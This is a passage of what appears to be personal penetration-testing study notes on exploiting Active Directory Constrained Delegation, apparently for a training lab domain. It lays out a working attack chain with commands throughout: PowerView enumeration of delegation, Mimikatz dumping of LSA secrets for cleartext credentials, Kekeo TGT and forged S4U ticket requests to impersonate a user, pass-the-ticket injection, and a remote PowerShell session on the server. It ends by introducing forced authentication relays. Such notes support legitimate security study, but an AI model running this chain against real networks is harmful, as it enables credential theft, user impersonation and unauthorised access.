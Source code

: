 ## Constrained Delegation Exploitation
As an example, to exploit Constrained Delegation, we first need to enumerate available delegations. We can use the `Get-NetUser` cmdlet of [[Powerview|PowerSploit]] for this enumeration by running the following:
```powershell
Import-Module PowerView.ps1
Get-NetUser -TrustedToAuth
```
Based on the output of this command, we may find an account that can delegate the HTTP and WSMAN services on a server machine. Normally we may think that this only means that we can access websites on behalf of impersonated users. However, Powershell Remoting uses the HTTP and WSMAN services as well.
We can then use [[Mimikatz]] to dump LSASecrets, part of the Windows Registry Hive where the credentials for features such as Windows services are stored. 
```mimikatz
toke::elevate
lsadump::secrets
```
This will show us the clear text credentials, which we can use to perform a Kerberos Delegation attack. For this we will use both [[Kekeo]] and [[Mimikatz]] (We can also use [[Rubeus]] to generate the tickets instead of Kekeo). We need to exit out of mimikatz so the `token::elevate` isn't active and we can load the tickets in the correct context. We will be opening Kekeo, inside the user machine and using it to generate our tickets and then use Mimikatz to load those tickets into memory.

First we need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services
```kekeo
tgt::ask /user:svcUser /domain:za.domain.com /password:Pass123
```
Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on the server.
```kekeo
tgs::s4u /tgt:TGT_svc...DOMAIN.COM.kirbi /user:t1_john.smith /service:http/server.za.domain.com
```
In here we first provide the TGT that we generated in the previous step (`/tgt`), then the user we want to impersonate (`/user`) and finally the service we want to impersonate using delegation (`/service`). We first generate a TGS for the HTTP service, then we can rerun the same for the WSMAN service.
Now that we have the two TGS tickets, we can use [[Mimikatz]] to import them.
```mimikatz
privilege::debug
kerberos::ptt TGS_t1_john.smith...COM_http~...DOMAIN.COM.kirbi
kerberos::ptt TGS_t1_john.smith...COM_wsman~...DOMAIN.COM.kirbi
```
Once done, we can exit mimikatz and run `klist` to verify if it worked. Now that the tickets are imported, we can create our PSSession on the server
```powershell
New-PSSession -ComputerName server.za.domain.com
Enter-PSSession -ComputerName server.za.domain.com
```

# Automated Relays
Authentication attempts are constantly flying across the network, and as we have seen in [[Breaching AD#Intercepting NetNTLM Challenge|Breaching AD]], if we have luck, we can intercept some of these challenges from a rogue device to breach into the AD environment. But waiting is not always an option, in that case we can try to force an authentication to occur.
